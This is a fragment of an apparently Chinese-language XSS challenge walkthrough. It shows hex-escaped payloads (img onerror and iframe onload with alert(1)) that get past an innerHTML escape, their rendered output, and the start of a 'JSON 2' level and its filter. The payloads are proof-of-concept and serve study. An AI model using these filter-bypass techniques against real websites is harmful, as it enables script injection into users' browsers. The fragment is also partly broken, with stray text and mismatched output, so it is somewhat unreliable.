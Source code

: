 ```
\x3c <
\x3e >
```

Payload

```
\x3c/a\x3e\x3cimg src=a onerror=alert(1)//
即</a> <img src=a onerror=alert(1)//
```

Output

```
      <h2>Hello, <span id=name></span>!</h2>         
      <script>                                       
         var v = document.getElementById('name');    
         v.innerHTML = '<a href=#>\x3c/a\x3e\x3cimg src=a onerror=alert(1)//</a>';       
      </script>      
```



也可以利用iframe

Payload

```
\x3ciframe onload=alert(1) 
```

Output

```
                                                
      <h2>Hello, <span id=name></span>!</h2>         
      <script>                                       
         var v = document.getElementById('name');    
         v.innerHTML = '<a href=#></a>';       
      </script>    
```



## JSON 2

```javascript
function escape(s) {
  s = JSON.stringify(s).replace(/<\/script/gi, '');

  return '<script>console.log(' + s + ');</script>';
}
```

对`" `和`\`转义

把`</script`替换为空

gi：全局查找且忽略大小写
